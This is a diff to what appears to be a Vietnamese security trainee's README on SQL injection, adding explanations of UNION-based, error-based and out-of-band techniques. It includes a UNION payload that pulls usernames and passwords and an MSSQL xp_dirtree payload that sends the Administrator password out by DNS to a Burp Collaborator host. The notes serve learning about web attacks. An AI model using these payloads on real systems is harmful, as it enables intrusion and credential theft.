

Before and after one commit to toanduneee/Training-KCSC, a Markdown page: Task-1/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/Task-1/README.md
+++ b/Task-1/README.md
@@ -11,14 +11,22 @@
 - Thường được dùng để hợp các kết quả từ nhiều bảng lại với nhau.
 - Dùng `UNION SELECT...` để gắn thêm 1 bảng mà mình muốn vào kết quả của truy vấn gốc, với điều kiện là số lượng cột phải bằng nhau.
 - Ví dụ: Có truy vấn gốc `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
+
   Với việc nhập vào phần `category` thì em muốn lấy tất cả các tài khoản mật khẩu từ trang đó, thì em chèn thêm là `' UNION SELECT username, password FROM users--`
+
   Khi đó truy vấn được gửi đi sẽ là `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users`, có nghĩa là ngoài việc lấy tất cả các sản phầm trong danh mục `Gifts` thì nó còn lấy thêm cả `username` AND `password`.
 
 ### 1.3. Error-Based SQLi:
-
+- Được dùng khi mà gửi đi 1 truy vấn và server, database trả về với 1 thông báo lỗi, từ thông báo này có thể thu thập được các thông tin như cấu trúc bảo, tên cột,... Rồi từ mấy cái lỗi đấy, kẻ tấn cộng lợi dụng nó để lấy được thông tin mà họ muốn.
 
 ### 1.4. Out-of-band SQLi (OAST):
+- Là kỹ thuật mà dùng để chèn một truy vấn độc hại vào SQL, khiến server gửi một request HTTP hoặc DNS đến một địa chỉ do kẻ tấn công kiểm soát.
 
+- Ví dụ: Giả sử có truy vấn này `'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
+
+  Thì nó đã lấy pass của `Admintrator` xong gán vào đầu của url `.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a`. Ví dụ pass là `admin1234` thì cái URL được server gửi request đi sẽ là `admin1234.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a`.
+
+  Kẻ tấn công sẽ theo dõi các request được gửi đến, và họ có thể thấy được password của người dùng `Admintartor` là `admin1234`.
 
 # 2. Phân biệt Client Side với Server Side
 - Server là 1 cái máy chủ có thể tương tác với database, thực hiện chức năng lấy dữ liệu cần thiết gửi về cho client.
```
